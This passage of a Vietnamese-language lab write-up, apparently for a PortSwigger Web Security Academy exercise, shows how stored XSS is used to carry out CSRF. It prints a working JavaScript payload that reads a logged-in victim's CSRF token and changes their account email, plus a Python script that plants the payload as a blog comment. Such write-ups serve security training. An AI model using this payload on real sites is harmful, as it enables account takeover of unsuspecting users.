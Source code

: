 Cụ thể, nó sẽ GET `/my-account` trước để tự đông lấy mã csrf rồi POST đến `/my-account/change-email` kèm theo email mong muốn đổi và mã csrf đã lấy được. Như vậy, khi nạn nhân load comment này thì email của họ sẽ tự động bị đổi.

- thực chất chúng ta dựa vào thực thi XSS để khai thác CSRF khi victim đã đăng nhập và vẫn đang trong session

![image](https://hackmd.io/_uploads/SyCJx5Oq6.png)

và mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a0600d2033a68968190a7c400000021.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + "/post?postId=8",
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
csrf = soup.find('input', {'name' : 'csrf'})['value']

payload = """<script>
var request = new XMLHttpRequest();
request.onload = csrfEmail;
request.open('get','/my-account',true);
request.send();
function csrfEmail() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('POST', '/my-account/change-email', true);
    changeReq.send('email=cuong@gmail.com&csrf='+token)
};
</script>""";

data = {
    'comment': payload,
    'postId': '8',
    'name': 'cuong',
    'email': 'a@a.a',
    'website' : 'http://a.com',
    'csrf' : csrf,
}

response = session.post(
    url + "/post/comment",
    data=data,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```
